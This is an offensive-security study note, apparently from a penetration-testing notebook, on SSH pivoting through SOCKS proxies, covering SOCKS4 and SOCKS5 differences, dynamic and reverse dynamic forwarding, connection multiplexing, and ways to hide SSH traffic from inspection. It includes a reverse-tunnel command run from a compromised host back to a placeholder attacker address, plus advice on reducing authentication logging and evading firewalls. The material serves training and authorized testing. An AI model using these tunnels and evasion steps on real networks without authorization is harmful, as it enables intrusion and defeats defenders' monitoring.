

# 73.02 SSH Tunneling and SOCKS Proxies

## 1. Deep Dive into SSH for Pivoting
Secure Shell (SSH) is ubiquitous across Linux and Unix environments, and increasingly present in modern Windows deployments via OpenSSH for Windows. Its ubiquity makes it the preferred tool for network pivoting, heavily utilized in "Living off the Land" (LotL) attack strategies. Beyond simple terminal access, SSH's internal port forwarding capabilities allow it to act as a powerful encryption wrapper and routing engine for attacking internal networks.

While basic local and remote port forwarding map one-to-one connections, SSH's ability to act as a SOCKS proxy provides a one-to-many routing capability, fundamentally changing an attacker's reach within a compromised network.

## 2. ASCII Architecture Diagram



## 3. SOCKS Protocol Analysis: SOCKS4 vs SOCKS5
To utilize dynamic port forwarding effectively, an attacker must understand the underlying SOCKS (Socket Secure) protocol mechanics.

### 3.1. SOCKS4 and SOCKS4a
- **SOCKS4**: An older protocol that lacks authentication entirely. Crucially, it only supports TCP traffic and does not support remote DNS resolution. If you attempt to connect to `internal-wiki.local` over SOCKS4, your attacker machine will attempt to resolve `internal-wiki.local` using its own local DNS servers. Since the domain is internal to the target network, the resolution fails, and the connection drops before it ever enters the proxy tunnel.
- **SOCKS4a**: An extension that allows the client to pass the unresolved hostname to the proxy server, mitigating the DNS issue, but it remains limited to TCP.

### 3.2. SOCKS5
- **Features**: SOCKS5 is the modern standard. It supports authentication (though often left unused in local attack proxies), remote DNS resolution, and theoretically UDP forwarding.
- **DNS Resolution**: The attacker machine passes the exact hostname to the SOCKS proxy, and the SSH server (the pivot) performs the DNS lookup locally on the internal network. This allows seamless interaction with internal Active Directory domains.
- **UDP Limitation in SSH**: While the SOCKS5 protocol specification supports UDP, OpenSSH's implementation of SOCKS5 **does not** support UDP forwarding. UDP packets sent to an SSH SOCKS proxy will be silently dropped.

## 4. Advanced SOCKS Proxy Creation via SSH

Creating a standard SOCKS proxy requires the `-D` flag.
```bash
ssh -D 127.0.0.1:9050 -N -f user@10.0.0.5
```

### 4.1. SSH Configuration Optimizations
When establishing long-lived pivoting tunnels, unstable network connections, NAT timeouts, or stateful firewalls will frequently kill your proxy. Optimizing your SSH command or your `~/.ssh/config` is critical for stability during an engagement.

```bash
ssh -D 9050 -N -f -q -C \
    -o ServerAliveInterval=15 \
    -o ServerAliveCountMax=3 \
    -o ExitOnForwardFailure=yes \
    -o StrictHostKeyChecking=no \
    user@10.0.0.5
```
- `-q`: Quiet mode, suppresses non-critical warnings and banners.
- `-C`: Compression. Highly recommended for pivoting over slow or latent connections (e.g., C2 beacons), as it speeds up high-text protocol transfers.
- `ServerAliveInterval`: Sends a null packet every 15 seconds through the encrypted tunnel to keep stateful firewalls from pruning the connection out of their state tables.
- `ExitOnForwardFailure`: Ensures the SSH client process dies if the local port bind fails. Without this, the process might background itself uselessly, creating zombie processes.

## 5. Reverse Dynamic Forwarding (Reverse SOCKS Proxies)
Often, the compromised pivot cannot be reached directly (due to NAT, strict ingress filtering, or lacking a public IP), but it can make outbound connections to the internet. We can establish a reverse SSH connection that *also* establishes a forward SOCKS proxy.

### 5.1. Execution Methodology
*(Note: Reverse dynamic forwarding `-R <port>` without a destination host was introduced in OpenSSH version 7.6)*

1. On the attacker machine, ensure the SSH daemon is running, listening, and accessible from the internet.
2. On the compromised pivot, connect back to the attacker and specify a reverse dynamic forward.

```bash
# Executed on the compromised pivot (Requires OpenSSH 7.6+)
ssh -R 127.0.0.1:9050 -N -f attacker@<attacker_public_ip>
```
Now, on the attacker machine, local port 9050 acts as a SOCKS proxy that routes traffic *out* through the compromised pivot.

## 6. SSH Multiplexing (ControlMaster)
When performing extensive network scanning, or when launching multiple concurrent tools through a pivot, establishing a new SSH TCP handshake and cryptographic key exchange for every connection is slow, noisy, and resource-intensive. SSH Multiplexing reuses a single established TCP connection for multiple distinct SSH sessions.

### 6.1. Configuration Implementation
Add the following directives to your attacker's `~/.ssh/config`:
```text
Host *
    ControlMaster auto
    ControlPath ~/.ssh/sockets/%r@%h-%p
    ControlPersist 600
```
When you establish your first SSH connection to a target, a Unix domain socket is created in `~/.ssh/sockets/`. Subsequent connections (even port forwarding commands or SFTP sessions) to the same host will seamlessly reuse the existing authenticated tunnel. This results in near-instantaneous connections and drastically reduces authentication logging on the target server.

## 7. Evasion Techniques: Hiding SSH Traffic
Network defenders heavily utilize Deep Packet Inspection (DPI) and Next-Generation Firewalls (NGFW) to identify SSH traffic. If egress filtering blocks port 22, simply running SSH on port 443 might be caught by DPI because the protocol handshake does not look like TLS.

### 7.1. Stunnel and SSL/TLS Wrapping
To hide the distinct SSH handshake, attackers wrap the entire SSH connection in a legitimate TLS tunnel.
1. Run `stunnel` on the attacker server to listen on port 443 and decrypt incoming TLS traffic to local port 22.
2. On the pivot, run `stunnel` in client mode to encrypt local SSH traffic and send it out over port 443.
3. SSH through the local stunnel client. The network sensors only observe legitimate HTTPS/TLS traffic.

### 7.2. SSLH (Protocol Multiplexer)
SSLH allows multiple services (HTTPS, SSH, OpenVPN) to share the exact same listening port (e.g., 443). When a connection arrives, SSLH inspects the first few packets from the client. If the packets resemble an SSH handshake, it routes them to `sshd`. If they resemble a TLS ClientHello, it routes them to `nginx` or `apache`. This is highly effective for hiding a pivoting entry point on a publicly facing web server.

### 7.3. Proxytunnel and Corkscrew
If the target network forces all outbound HTTP/HTTPS traffic through a corporate explicit web proxy, SSH connections will be blocked. Tools like `corkscrew` or `proxytunnel` allow the SSH client to encapsulate its traffic inside HTTP CONNECT requests, bridging the corporate proxy.

## 8. Limitations of SSH SOCKS Proxies
- **No UDP Support**: As mentioned, OpenSSH SOCKS proxies drop UDP traffic. You cannot perform UDP port scans (Nmap `-sU`) or pivot UDP protocols (SNMP, TFTP, DNS).
- **ICMP Dropped**: Ping (`-PE`) relies on ICMP, which operates at Layer 3. SOCKS operates at Layer 5. Ping will not work through an SSH SOCKS proxy.
- **TCP Connection Overhead**: Tunneling TCP over TCP can lead to severe performance degradation on lossy networks. If a packet is lost in the outer tunnel, the inner tunnel also pauses and attempts retransmission, causing exponential delays (known as the "TCP Meltdown" problem).

## 9. Chaining Opportunities
- SSH SOCKS proxies are typically chained directly with [[03 - ProxyChains and Traffic Routing]] to force tools like Nmap, Metasploit, or CrackMapExec into the internal network.
- When UDP or ICMP is required, penetration testers must transition from Layer 5 SOCKS proxies to Layer 3 VPN interfaces using [[05 - Ligolo-ng Advanced TUN Interface Pivoting]].
- If OpenSSH is restricted or unavailable on the target (e.g., restricted Windows endpoints), attackers rely on [[04 - Chisel for TCP UDP Tunneling]] to establish the proxy tunnel over HTTP/WebSocket.

## 10. Related Notes
- [[01 - Port Forwarding Local Remote and Dynamic]]
- [[03 - ProxyChains and Traffic Routing]]
- [[04 - Chisel for TCP UDP Tunneling]]
- [[05 - Ligolo-ng Advanced TUN Interface Pivoting]]
